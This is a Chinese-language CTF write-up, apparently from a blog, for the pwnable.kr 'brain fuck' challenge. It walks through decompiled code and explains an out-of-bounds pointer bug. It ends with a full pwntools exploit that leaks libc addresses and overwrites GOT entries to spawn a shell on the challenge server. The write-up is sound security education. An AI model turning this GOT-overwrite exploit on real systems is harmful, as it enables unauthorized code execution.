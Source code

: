```yaml
---
layout: post
title: "Rookiss Writeup [pwnable.kr]"
tags: [pwn, security]
---
```


（PS：文章内容会随着做题进度进行更新）

### [brain fuck]

> I made a simple brain-fuck language emulation program written in C. <br>
> The [ ] commands are not implemented yet. However the rest functionality seems working fine. <br>
> Find a bug and exploit it to get a shell. 
>
> Download : http://pwnable.kr/bin/bf<br>
> Download : http://pwnable.kr/bin/bf_libc.so
>
> Running at : nc pwnable.kr 9001

`bf` 为 32 ELF 程序：

![img]({{ site.url }}/public/img/article/2015-07-25-rookiss-writeup-pwnable-kr/brain-fuck-1.png)

使用 IDA 分析，程序会让你输入一串字符（最多1024bytes）然后遍历字符进行解析：

	int __cdecl main(int argc, const char **argv, const char **envp)
	{
	  int result; // eax@4
	  int v4; // edx@4
	  size_t i; // [sp+28h] [bp-40Ch]@1
	  int v6; // [sp+2Ch] [bp-408h]@1
	  int v7; // [sp+42Ch] [bp-8h]@1
	
	  v7 = *MK_FP(__GS__, 20);
	  setvbuf(stdout, 0, 2, 0);
	  setvbuf(stdin, 0, 1, 0);
	  p = (int)&tape;
	  puts("welcome to brainfuck testing system!!");
	  puts("type some brainfuck instructions except [ ]");
	  memset(&v6, 0, 0x400u);
	  fgets((char *)&v6, 1024, stdin);
	  for ( i = 0; i < strlen((const char *)&v6); ++i )
	    do_brainfuck(*((_BYTE *)&v6 + i));
	  result = 0;
	  v4 = *MK_FP(__GS__, 20) ^ v7;
	  return result;
	}
	
`do_brainfuck` 函数有一些列对指针 `p` 进行操作的分支：

	int __cdecl do_brainfuck(char a1)
	{
	  int result; // eax@1
	  int v2; // ebx@7
	
	  result = a1;
	  switch ( a1 )
	  {
	    case '>':
	      result = p++ + 1;
	      break;
	    case '<':
	      result = p-- - 1;
	      break;
	    case '+':
	      result = p;
	      ++*(_BYTE *)p;
	      break;
	    case '-':
	      result = p;
	      --*(_BYTE *)p;
	      break;
	    case '.':
	      result = putchar(*(_BYTE *)p);
	      break;
	    case ',':
	      v2 = p;
	      result = getchar();
	      *(_BYTE *)v2 = result;
	      break;
	    case '[':
	      result = puts("[ and ] not supported.");
	      break;
	    default:
	      return result;
	  }
	  return result;
	}
	
这里的指针 `p` 是一个字符型指针，每次自增或自减会使得指向的地址 `+0x1` 或 `-0x1`。根据分析可以得到如下解析说明：

	'>' ==> p++
	'<' ==> p--
	'+' ==> *p += 1
	'-' ==> *p -= 1
	'.' ==> putchar(*p)
	',' ==> *p = getchar()
	'[' ==> puts(xxxx)
	
这里既能控制指针，又能读写指针指向地址的值，并且指针 `p` 初始值为 `0x0804A0A0 (tape)`，而往低地址一点就是 `.got.plt`。因为题目提供了 libc 文件，所以这里可以通过泄漏 `.got.plt` 中的 `fgets()` 函数地址来计算目标环境的 `system()` 函数地址，然后重写 `.got.plt` 结构来使得 `fgets()` 的 GOT 变为 `system()`，`memset()` 的 GOT 变为 `gets()`，然后通过修改 `putchar()` 的 GOT 为主函数 `main()`，从而执行到 `0x08048700 - 0x08048734` 处代码的时候实际上执行的是 `system(gets())`：

	.text:08048700                 mov     dword ptr [esp+8], 400h ; n
	.text:08048708                 mov     dword ptr [esp+4], 0 ; c
	.text:08048710                 lea     eax, [esp+2Ch]
	.text:08048714                 mov     [esp], eax      ; s
	.text:08048717                 call    _memset         ; rewrite memset() to fgets()
	.text:0804871C                 mov     eax, ds:stdin@@GLIBC_2_0
	.text:08048721                 mov     [esp+8], eax    ; stream
	.text:08048725                 mov     dword ptr [esp+4], 400h ; n
	.text:0804872D                 lea     eax, [esp+2Ch]
	.text:08048731                 mov     [esp], eax      ; s
	.text:08048734                 call    _fgets          ; rewrite fgets() to system()
	.text:08048739                 mov     dword ptr [esp+28h], 0
	.text:08048741                 jmp     short loc_8048760
	
最终的 exp 如下：

	from pwn import *
	
	libc = ELF('./bf_libc.so')
	
	p = remote('pwnable.kr', 9001)
	#p = process('./bf')
	p.recvline_startswith('type')
	
	# Move the pointer to .got.plt fgets()
	payload = '<' * (0x0804A0A0 - 0x0804A010)
	# Print .got.plt fgets() address in memory each bytes
	payload += '.>' * 4
	# reMove the pointer to .got.plt fgets()
	payload += '<' * 4
	# Write .got.plt fgets() to system()
	payload += ',>' * 4
	# Move the pointer to .got.plt memset()
	payload += '>' * (0x0804A02C - 0x0804A014)
	# Write .got.plt memset() to fgets()
	payload += ',>' * 4
	# Writr .got.plt putchar() to main() 0x08048671
	payload += ',>' * 4
	# Call putchar(), actually main() called
	payload += '.'
	
	p.sendline(payload)
	
	fgets_addr = p.recvn(4)[::-1].encode('hex')
	system_addr = int(fgets_addr, 16) - libc.symbols['fgets'] + libc.symbols['system']
	gets_addr = int(fgets_addr, 16) - libc.symbols['fgets'] + libc.symbols['gets']
	
	p.send(p32(system_addr))
	p.send(p32(gets_addr))
	p.send(p32(0x08048671))
	p.sendline('/bin/sh')
	p.interactive()
	

